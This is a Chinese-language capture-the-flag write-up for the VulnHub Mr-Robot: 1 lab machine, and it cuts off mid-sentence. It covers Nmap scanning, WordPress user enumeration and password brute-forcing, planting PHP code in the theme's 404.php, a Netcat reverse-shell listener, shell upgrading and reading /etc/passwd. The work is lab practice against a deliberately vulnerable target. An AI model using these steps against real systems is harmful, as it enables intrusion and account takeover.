# 0x0E - Mr-Robot1

## 基本信息

- 靶场名称：Mr-Robot: 1
- 靶场链接：[VulnHub - Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/)
- 考点清单：信息收集、SSL 证书信息提取、目录扫描、WordPress 用户枚举、字典爆破、PHP Reverse Shell、Hashcat、SUID 提权、Nmap 提权
- 工具清单：Nmap、DIRB、WhatWeb、WPScan、Burp Suite、Hashcat、Netcat、GTFOBins

## 攻击链路

```
Recon
  │
  ├── Nmap：主机发现、端口扫描
  ├── SSL 证书：提取域名 www.example.com
  └── hosts：建立本地域名映射
  │
  ▼
Web Enumeration
  │
  ├── DIRB：目录扫描
  ├── robots.txt：信息泄露
  │     ├── key-1-of-3.txt
  │     └── fsocity.dic
  └── WPScan：WordPress 信息收集
  │
  ▼
Initial Access
  │
  ├── 用户名枚举
  ├── 密码字典爆破
  ├── WordPress 后台登录
  ├── 修改主题 404.php
  └── PHP Reverse Shell
  │
  ▼
Shell
  │
  ├── PTY 交互升级
  └── 敏感文件枚举
  │
  ▼
Lateral Movement
  │
  ├── 获取 robot 用户密码 Hash
  ├── Hashcat 字典破解
  └── su 切换至 robot
  │
  ▼
Privilege Escalation
  │
  ├── SUID 文件枚举
  ├── GTFOBins 查询
  └── Nmap SUID 提权
  │
  ▼
Root
```

## 1. 信息收集

### 1.1 主机发现与端口扫描

使用 Nmap 扫描局域网存活主机，确定靶机 IP 为 `192.168.56.115`

```shell
nmap -sn 192.168.56.1/24 --min-rate 1000

IP=192.168.56.115

nmap -A $IP -oN nmap.txt -p `nmap -sS -sU -p- -Pn $IP --min-rate 8888 | grep '/tcp\|/udp' | awk -F '/' '{print $1}' | sort -u | tr '\n' ','`
```



### 1.2 SSL 证书与域名发现

在 Nmap 扫描结果中，`ssl-cert` 脚本发现证书包含以下域名信息：

```
Subject: commonName=www.example.com
```

其中 `commonName`（CN）提供了目标站点的域名线索

将域名添加到本地 `/etc/hosts`，建立域名与 IP 的映射关系

```shell
sudo nano /etc/hosts

# 添加
192.168.56.115 www.example.com
```



### 1.3 目录扫描与信息泄露

使用 DIRB 枚举 Web 目录及文件

```shell
dirb http://www.example.com/ -o results.txt
```



访问 `/robots.txt`，发现两个值得关注的资源：

- `key-1-of-3.txt`：包含第一段 Flag
- `fsocity.dic`：泄露的字典文件，可用于后续用户名及密码爆破



下载字典并进行去重处理

```shell
# 下载字典
wget http://www.example.com/fsocity.dic

# 查看原始字典统计信息
wc fsocity.dic

# 去重并统计
sort -u fsocity.dic | wc

# 去重并保存
sort -u fsocity.dic > dic.list

# 查看去重后的行数
wc -l dic.list
```



### 1.4 Web 指纹识别

使用 WhatWeb 识别目标 Web 服务

```shell
whatweb http://www.example.com/0/
```



进一步使用 WPScan 探测 WordPress 版本、插件、主题及用户信息

```shell
wpscan --url http://192.168.56.115/
```



根据扫描得到的版本信息，使用 SearchSploit 检索相关公开漏洞

```shell
searchsploit wordpress <VERSION>
```

发现存在用户名枚举相关的漏洞线索



## 2. 漏洞利用 / 初始访问

### 2.1 登录入口发现

尝试访问登录入口：

```
http://www.example.com/login
```

发现页面重定向至：

```
http://www.example.com/login.php
```



### 2.2 WordPress 用户名枚举

使用之前从 `robots.txt` 中获取并处理过的 `fsocity.dic` 作为字典，枚举有效用户名

WordPress 的密码重置功能可能存在用户名枚举问题

> 其基本原理是：
>
> 用户在忘记密码页面提交用户名或邮箱后，服务器会根据账户是否存在返回不同的提示，攻击者可以利用响应差异判断用户名是否有效



> **Burp Suite：Case Sensitive**
>
> 用于控制匹配文本时是否区分大小写

### 2.3 密码字典爆破

得到有效用户名后，在 WordPress 登录页面使用 `fsocity.dic` 进行密码爆破



最终得到一组 `username:password` 有效凭据，并成功登录 WordPress 后台

### 2.4 修改 WordPress 主题文件

成功进入后台后，发现在插件文件编辑器中，可以直接修改部分插件对应的 PHP 文件

首先尝试修改插件文件 `hello.php`，写入测试代码：

```php
<?php
    echo 123;
    phpinfo();
?>
```



修改后多次刷新对应插件页面，始终没有观察到预期效果

于是转而尝试修改 WordPress 主题中的 `404.php`

> 当用户访问不存在的页面时，WordPress 会根据当前主题的模板机制加载对应的 404 模板

因此可以利用该文件作为 PHP 代码执行入口

写入测试代码：

```php
<?php
    echo 123;
?>
```

访问对应的 `404.php`，观察到预期输出，并通过 curl 验证

```shell
curl http://www.example.com/404.php -k
```



成功验证了通过修改主题 PHP 文件实现代码执行的能力

### 2.5 PHP Reverse Shell

将测试代码替换为 PHP Reverse Shell 脚本

首先在攻击机开启 Netcat 监听：

```
rlwrap nc -lvnp 2233
```

随后访问修改后的 PHP 文件，触发反弹 Shell



初期尝试的一些简单反弹 Shell 没有得到预期效果，于是转而尝试更复杂的 PHP 反弹 Shell



最终成功建立反向连接，获得目标机器的命令行访问权限

### 2.6 Shell 交互升级

Netcat 获取的反弹 Shell 通常缺少完整的伪终端（PTY）支持，可能出现方向键无法正常使用、交互式程序无法运行等问题

```
export TERM=xterm

which python
python -c 'import pty;pty.spawn("/bin/bash")'

# Ctrl + Z 返回本地终端
stty raw -echo; fg
```

## 3. 权限提升

### 3.1 用户信息与敏感文件枚举

获得初始 Shell 后，枚举系统用户及其家目录

查看具有有效登录 Shell 的用户：

```
cat /etc/passwd | grep -v nologin
```



查看 `/home` 下的用户目录：

```
ls -la /home
```



发现存在 `robot` 用户目录，进一步检查目录中的文件，发现保存用户密码 Hash 的文件



读取 Hash 并保存至攻击机的 